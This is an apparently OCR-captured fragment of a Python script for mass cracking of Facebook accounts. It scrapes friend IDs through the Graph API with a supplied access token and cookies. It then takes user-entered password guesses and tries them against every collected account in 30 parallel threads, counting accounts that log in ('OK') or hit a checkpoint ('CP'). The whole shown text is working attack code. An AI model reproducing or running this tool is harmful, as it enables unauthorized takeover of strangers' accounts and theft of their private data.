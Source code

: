         for userr in usrr:
                try:
                        col = ses.get('https://graph.facebook.com/v2.0/'+userr+'?fields=friends.limit(5000)&access_token='+tokenku[0], cookies = {'cookies':cok}).json()
                        for mi in col['friends']['data']:
                                try:
                                        iso = (mi['id']+'|'+mi['name'])
                                        if iso in id:pass
                                        else:id.append(iso)
                                except:continue
                except (KeyError,IOError):
                        pass
                except requests.exceptions.ConnectionError:
                        exit(f' No internet connection')
        try:
                plist = []
                try:
                        ps_limit = int(input(' How many passwords do you want to add ? '))
                except:
                        ps_limit =1
                linex()
                print('\033[1;32m exp: first last,firtslast,first123')
                linex()
                for i in range(ps_limit):
                        plist.append(input(f' Put password {i+1}: '))
                with tred(max_workers=30) as crack_submit:
                        clear()
                        total_ids = str(len(id))
                        print(' Total account : \033[1;32m'+total_ids+f' \033[1;33m>\033[1;36m> \033[1;37mMethod -> \033[1;37mM{mthd}')
                        print("\033[1;37m \x1b[38;5;208mUse flight mode for speed up\033[1;37m")
                        linex()
                        for user in id:
                                ids,names = user.split('|')
                                passlist = plist
                                if mthd in ['1','01']:
                                        crack_submit.submit(ffb,ids,names,passlist)
                                elif mthd in ['2','02']:
                                        crack_submit.submit(api,ids,names,passlist)
                                else:
                                        crack_submit.submit(api1,ids,names,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()
                input(' Press enter to back ')
                os.system('python bht.py')
        except requests.exceptions.ConnectionError:
                exit(f' No internet connection')
        except (KeyError,IOError):
                print(f' No friends for {userr}')
                time.sleep(3)
                public()
def menu():
        try:
                clear()
        #       chk()
                x = ("sex")
                if x == ("sex"):
                        print(' [1] File cloning\n [0] Exit menu')
                        linex()